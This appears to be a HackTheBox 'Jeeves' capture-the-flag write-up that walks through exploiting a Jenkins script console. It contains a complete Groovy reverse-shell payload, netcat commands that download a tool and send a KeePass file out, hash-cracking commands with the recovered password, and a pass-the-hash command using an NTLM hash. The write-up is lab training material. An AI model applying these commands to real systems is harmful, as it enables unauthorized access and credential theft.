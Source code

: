 ```yaml
---
layout: single
title:  Jeeves-HackTheBox
date: 2021-12-18
classes: wide
header:
  teaser: 
tags:
  - ctf
  - HackTheBox
--- 
```



Jeeves is in reference to a Jenkins server that we will eventually be exploiting. Super fun recap box!

![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeevessite1.PNG)
Starting off by scanning ports.
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeevesscan.PNG)

See there is at least one webserver. Fuzz directories, ran nikto etc. Nothing of real interest there.
Check out the second Jetty webserver spotted in the nmap scan. gobuster until we find askjeeves	

![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeeves1finsihsed.PNG)

Stumble accross the scripting console
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeevescli.PNG)

Do research to find ways to exploit this
exploit jenkins with groovy script 
https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins#code-execution
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeevesscript.PNG)


https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy

String host="<LOCAL-IP>";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeevesusershell.PNG)  
  
We get a user shell as kohsuke. 
After a little bit of recon we come accross CEH.kdbx 
  
This file format appears to be a keepass password file. Before we attempt to see the password we have to download the file to our local machine. 
  
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeeveskdbx.PNG)

 I achieved this by downloading a netcat executable from the user shell we are in from a python http server that we host.
  
"powershell wget "http://localip:8000/nc.exe" -outfile nc.exe"
The virtual machine cannot reach out to github to download the file from there
Then "nc -lnvp <port> > CEH.kdbx" on your local machine and "nc.exe <local-ip> <same-port> < "CEH.kdbx" on the victim machine

We need a password to open the kdbx file. Why dont we crack it? 
I used this article as guidance, the main points summarized are
                                                                                               
https://www.rubydevices.com.au/blog/how-to-hack-keepass 
download and use keepass2john on the kdbx file.

./keepass2john CEH.kdbx > CEH.hash
Remove name of keepass database from the new hashfile. 
use hashcat to crack the file.

./hashcat -m 13400 -a 0 -w 1 CEH.hash <wordlist-file> 
 moonshine1 is the password to the keepass file
  
 ![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeeveskeepass1.png)
 
 ![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeeveskeepass2.png)
 
 We find a hash in the keepass file under the title of Backup stuff
 From here I got stuck for a while. While researching I found the tool pth-winexe
 read the docs, run to get admin! 
  
 pth-winexe --user=jeeves/administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.ex
 
 we now have a root shell!
 ![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeevesroot.PNG)

admin has hm.txt file redirecting to actual file
![](https://github.com/MaangoTaachyon/tkyn.dev/tree/main/assets/imagesJeeves/jeeveshn.PNG)

 get-content .\hm.txt -stream root.txt
and we get root flag :)
